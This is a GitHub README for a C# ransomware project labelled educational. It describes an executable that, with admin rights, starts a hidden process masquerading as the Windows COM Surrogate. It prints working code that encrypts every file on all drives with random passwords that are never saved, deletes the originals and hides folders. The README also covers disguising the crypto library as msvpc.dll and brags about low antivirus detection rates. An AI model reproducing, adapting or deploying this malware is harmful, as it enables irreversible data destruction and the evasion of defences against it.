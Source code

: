 # Ransomware

Ransomware is a project written in C# 4.8 and shows how ransomeware generally works. This repository should be used for educational reasons only!!

[![Build status](https://ci.appveyor.com/api/projects/status/m435h8vg3m6uwdv2?svg=true)](https://ci.appveyor.com/project/SeppPenner/ransomware)
[![GitHub issues](https://img.shields.io/github/issues/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/issues)
[![GitHub forks](https://img.shields.io/github/forks/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/network)
[![GitHub stars](https://img.shields.io/github/stars/SeppPenner/Ransomware.svg)](https://github.com/SeppPenner/Ransomware/stargazers)
[![GitHub license](https://img.shields.io/badge/license-AGPL-blue.svg)](https://raw.githubusercontent.com/SeppPenner/Ransomware/master/License.txt)
[![Known Vulnerabilities](https://snyk.io/test/github/SeppPenner/Ransomware/badge.svg)](https://snyk.io/test/github/SeppPenner/Ransomware)

## Folders
The [Setup](https://github.com/SeppPenner/Ransomware/blob/master/Setup) folder contains a [Inno Setup](http://www.jrsoftware.org/isinfo.php) script and the installer.

The [BeforeSetup](https://github.com/SeppPenner/Ransomware/blob/master/BeforeSetup) folder contains the files the setup installs.

The [Projects](https://github.com/SeppPenner/Ransomware/blob/master/Projects) folder contains the C# source code.

## The stuff behind
The **LustigeFehler.exe** file is the main exe. It will start and show some nonsense error messages.

If it's not run in admin mode, it will crash with an error. If the .exe is started in admin mode, it will start up a new hidden (can't be seen in the taskbar or as GUI) process called
[COM Surrogate](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate) in the background.

Why **COM Surrogate**? - Because noone will ever expect a [standard Windows process](https://www.howtogeek.com/326462/what-is-com-surrogate-dllhost.exe-and-why-is-it-running-on-my-pc/) is running as a virus.
In the background, the our **Fake COM Surrogate.exe** will run and try to encrypt all files on all drives it finds.

Additionally, it will **hide** all folders it finds. Furthermore, the AES crypto library is obfuscated to the name **msvpc.dll** to avoid that suspicious users (who take a look into the install folder) get more suspicious.

How is this possible? - The following lines of code taken from [Main.cs](https://github.com/SeppPenner/Ransomware/blob/master/Projects/COM%20Surrogate/COM%20Surrogate/Main.cs) show the main **ransomware** code.
```csharp
private string GetRandomPassword()
{
   var alg = SHA512.Create();
   alg.ComputeHash(Encoding.UTF8.GetBytes(DateTime.Now.ToLongDateString() + _random.Next(int.MaxValue)));
   return BitConverter.ToString(alg.Hash);
}

private void Run()
{
   foreach (var drive in DriveInfo.GetDrives())
   {
      try
      {
         EncryptFs(drive.Name);
      }
      catch
      {
         // ignored
      }
   }
}

private void EncryptFs(string directory)
{
   foreach (var file in Directory.GetFiles(directory))
   {
      try
      {
         if (file == null) continue;
         Msvpc.UseE(GetRandomPassword(), file,
            Path.Combine(directory, Path.GetFileNameWithoutExtension(file)) + Resources.Ending);
         File.Delete(file);
      }
      catch
      {
         // ignored
      }
   }

   foreach (var dir in Directory.GetDirectories(directory))
   {
      HideDirectory(dir);
      EncryptFs(dir);
   }
}

private void HideDirectory(string dir)
{
   var di = new DirectoryInfo(dir);
   if ((di.Attributes & FileAttributes.Hidden) != FileAttributes.Hidden)
   {
      di.Attributes |= FileAttributes.Hidden;
   }
}

private bool IsElevated()
{
   var id = WindowsIdentity.GetCurrent();
   return id.Owner != id.User;
}
```

## Virustotal.com scans
Well, let's see what [virustotal.com](virustotal.com) shows us as information on this "virus":

* The dllhost.exe: https://www.virustotal.com/#/file/ff946d2667b9a51b477d3abcdb12177b732c27901e199731cfe21f9430fba568/detection -->  9 / 57 detections --> Very poor :D
* The LustigeFehler.exe: https://www.virustotal.com/#/file/18436c0625daad52a141eeb9f4d4cbfd94e54264fa949ec9597c84c4ad0b39bb/detection --> 0 / 57 detections, which is ok. It's clean.
* The LustigeFehler-Setup.exe: https://www.virustotal.com/#/file/31f5447fa6c498ab526f1686cb77778f41223d6783ccba4298f9580ce8dfa055/detection --> 11 / 58 detections --> Very poor :D

## Hint
Please don't try this software on your PC. It's for educational purposes only!!!!!!

Change history
--------------

* **Version 1.0.0.1 (2019-05-07)** : Updated .Net version to 4.8.
* **Version 1.0.0.0 (2018-01-08)** : 1.0 release.
